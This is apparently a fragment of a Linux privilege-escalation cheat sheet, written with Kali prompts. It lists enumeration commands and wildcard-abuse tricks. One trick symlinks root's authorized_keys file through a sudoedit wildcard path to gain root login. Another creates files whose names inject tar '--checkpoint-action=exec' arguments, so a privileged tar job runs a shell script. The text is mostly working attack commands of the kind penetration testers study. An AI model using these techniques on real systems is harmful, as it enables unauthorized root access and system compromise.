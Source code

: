 ```
Kali> cat /etc/fstab
Kali> mount
```

##### Exim

```
Kali> exim -bV -v | grep -i Perl
```

##### Wildcard Manipulation

> ###### Resources

[UNIX Wildcards gone wild](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)

> ###### Sudoedit

```
# if sudoedit is using wildcards you can escape out with a few techniques
# Such as:  (root) NOPASSWD: sudoedit /var/www/*/*/file.html
Kali> ln -s /root/.ssh/authorized_keys /var/www/testing/testdir/file.html
# Now when you add your key to this file, you will be able to login to root, for example
```

> ###### Tar

```
# If there is a script running as an authorized user that uses wildcards to tar a folder, you can inject command line arguments via:
Kali> echo '' > "--checkpoint-action=exec='sh shell.sh'"
Kali> echo '' > "--checkpoint=1"
```



